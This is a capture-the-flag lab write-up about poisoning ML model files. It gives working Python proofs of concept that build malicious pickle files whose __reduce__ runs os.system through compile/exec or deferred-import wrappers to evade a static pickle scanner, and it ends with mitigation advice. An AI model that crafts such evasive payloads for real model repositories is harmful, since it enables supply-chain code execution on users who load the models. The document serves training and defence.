

# 🥒 BrineBreaker: Pickle Scan Evasion

> **Scenario**: You are a Red Team operator at *Secure-Corp*, tasked with simulating a supply chain attack targeting the AI/ML ecosystem.
> **Mission**: Craft a malicious pickle file (`.pkl`) that looks innocent but hides a payload, successfully evading "Pickle Scan", a static analysis tool.

---

## 🎯 Objective

Simulate a real-world **AI/ML supply chain attack** by poisoning a model file.
1.  **Craft** a malicious Python object serialized with Pickle.
2.  **Obfuscate** the payload to evade static analysis signatures.
3.  **Upload** the file to the simulated Model Repository.
4.  **Bypass** the "Pickle Scan" defense mechanisms.

> **Note**: Execution is symbolic. The victory condition is fooling the scanner, not the actual RCE detonation.

---

## 🏗️ Architecture of the Attack

The attack targets the trust relationship between model repositories and the pipelines that ingest them.



### Threat Profile
-   **Category**: Execution (TA0002), Supply Chain Compromise (TA0009), Persistence (T1059.006)
-   **Vector**: `pickle.load()` allows arbitrary code execution during deserialization if the `__reduce__` method is manipulated.
-   **Defense**: "Pickle Scan" uses static analysis (AST/opcode parsing) to detect dangerous globals (e.g., `os.system`, `eval`, `subprocess.Popen`).

---

## 🛡️ Evasion Techniques

To bypass static analysis, we must avoid "loud" signatures while maintaining functionality.

### 🚫 What Flags the Scanner
| Primitive | Risk Level | Reason |
| :--- | :--- | :--- |
| `os.system` | 🔴 Critical | Direct shell command execution |
| `subprocess.Popen` | 🔴 Critical | Process spawning |
| `builtins.eval` / `exec` | 🔴 Critical | Arbitrary code evaluation |
| `open(..., 'w')` | 🟠 High | File system write access |
| `import('os')` | 🟠 High | Dynamic imports of sensitive modules |

### ✅ Evasion Strategy used in BrineBreaker
Instead of calling dangerous functions directly within the serialized object, we use **abstraction** and **indirect invocation**.

**Technique**: Wrap the dangerous call inside a custom function or class specifically defined to look benign during static analysis.

#### Proof of Concept: The `compile` & `exec` Wrapper
This payload uses `compile()` to create a code object from a string (hiding the `import os` statement from simple string matching) and then executes it.

```python
import pickle

def execute_command(command):
    # The malicious behavior is hidden inside a string and compiled dynamically
    compiled_code = compile(f'import os; os.system("{command}")', "<string>", "exec")
    exec(compiled_code)

class Code:
    def __reduce__(self):
        message = 'echo "Bypass Successful!"'
        # Return the custom function instead of os.system directly
        return (execute_command, (message,))

# Generate the payload
with open("model.pkl", "wb") as f:
    pickle.dump(Code(), f)

print("[+] Payload crafted: model.pkl")
```

#### Proof of Concept: The Module Wrapper
Hiding the import inside a local function scope often evades scanners that only look at global imports or direct `reduce` references.

```python
import pickle

def exec_func():
    # Deferred import - undetectable at the serialization boundary
    import os
    os.system('echo Infected by bypass payload')

class Code:
    def __reduce__(self):
        return (exec_func, ())

with open('model.pkl', 'wb') as f:
    pickle.dump(Code(), f)
```

---

## 🧪 Laboratory Walkthrough

### Step 1: Access & Setup
1.  Login to the simulation dashboard: `https://aptlab.cwltraining.live/pickle/login`
2.  Navigate to **AI Model Repository** -> **New** to create a target repo.

### Step 2: Payload Construction
Create a python script to generate your `model.pkl`. Use one of the evasion techniques above.
-   **Goal**: Create a class `Code` with a `__reduce__` method.
-   **Constraint**: Do NOT return `(os.system, ...)` directly.

### Step 3: Deployment & Bypass
1.  Upload your crafted `model.pkl` to the repository.
2.  Storage accepts the file -> **Pickle Scan** initiates.
3.  **Success**: If the scanner fails to detect the wrapper, the file is accepted.
4.  **Flag**: Capture the flag displayed upon successful upload.

---

## 🔒 Defense & Mitigation

How do we stop this finding only "known bad" patterns (blacklisting) is insufficient.
1.  **Never Unpickle Untrusted Data**: This is the only 100% cure.
2.  **Use Safe Formats**: JSON, Protobuf, or `safetensors` for ML models.
3.  **Sandboxing**: Perform deserialization in strict isolation.
4.  **Cryptographic Signing**: Verify model signatures before loading.

> **Disclaimer**: This content is for educational purposes and authorized simulations only. Unlawful use of offensive techniques is strictly prohibited.

---
*Based on Cyberwarfare Labs Simulation*
